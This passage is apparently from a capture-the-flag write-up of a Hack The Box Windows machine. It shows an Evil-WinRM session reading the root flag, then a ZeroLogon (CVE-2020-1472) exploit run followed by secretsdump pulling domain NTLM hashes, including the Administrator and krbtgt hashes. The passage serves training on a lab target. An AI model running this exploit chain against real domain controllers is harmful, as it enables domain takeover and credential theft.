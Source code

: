 ```
   Bytes :       522       522         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Wednesday, April 1, 2020 12:48:19 PM
*Evil-WinRM* PS C:\programdata\temp> dir

    Directory: C:\programdata\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/1/2020   2:36 AM             34 root.txt

```

Now that it’s there, I can read the flag:

```
*Evil-WinRM* PS C:\programdata\temp> type root.txt
b292dfe5************************

```

### ZeroLogon

I dropped a [quick post](/2020/09/17/zerologon-owning-htb-machines-with-cve-2020-1472.html) earlier this week on CVE-2020-1472. I could have run this without doing anything else on the box, and it works here too:

```

(venv) root@kali# python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
======================
Target vulnerable, changing account password to empty string                                    

Result: 0

Exploit complete!

(venv) root@kali# secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                               
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::         
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                              
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
...[snip]...

```
